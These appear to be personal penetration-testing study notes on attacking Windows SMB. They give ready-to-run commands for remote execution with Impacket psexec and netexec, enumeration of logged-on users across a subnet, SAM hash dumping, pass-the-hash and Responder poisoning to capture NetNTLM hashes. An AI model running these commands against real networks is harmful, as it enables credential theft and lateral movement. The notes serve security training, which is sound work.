 # Impacket PsExec
---
- To use `impacket-psexec`, we need to provide the domain/username, the password, and the IP address of our target machine. For more detailed information we can use impacket help:
	- `impacket-psexec -h`

- To **connect to a remote machine with a local administrator account**, using `impacket-psexec`, you can use the following command:
	- `impacket-psexec administrator:'Password123!'@10.10.110.17`
- The same options apply to `impacket-smbexec` and `impacket-atexec`.

# CrackMapExec / Netexec
---
- Another tool we can use to run CMD or PowerShell is `CrackMapExec`. 
- One advantage of `CrackMapExec` is the availability to run a command on multiples host at a time.
	- `netexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`
	  
- **Note:** If the`--exec-method` is not defined, **CrackMapExec will try to execute the atexec method, if it fails you can try to specify the `--exec-method` smbexec.**


## Enumerating Logged-on Users
- We could use `CrackMapExec` to **enumerate logged-on users on all machines within the same network `10.10.110.17/24`**:
	- `netexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`

## Extract Hashes from SAM Database
- `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`

## Pass-the-Hash (PtH)
- [[Pass the Hash (PtH)]], [[Pass the Ticket (PtT) from Linux]]
- We can use a PtH attack with any `Impacket` tool, `SMBMap`, `CrackMapExec`, among other tools. Here is an example of how this would work with `CrackMapExec`:
	- `netexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`

# ==Forced Authentication Attacks==
---
- We can also abuse the SMB protocol by creating a **==fake SMB Server to capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4).==**
- The most common tool to perform such **operations is the `Responder`.** 
- [Responder](https://github.com/lgandx/Responder) is an **LLMNR, NBT-NS, and MDNS poisoner too**l with different capabilities, one of them is the possibility to set up fake services, including SMB, to **steal NetNTLM v1/v2 hashes.**:

	- `responder -I <interface name>`

![[Pasted image 20250708072006.png]]
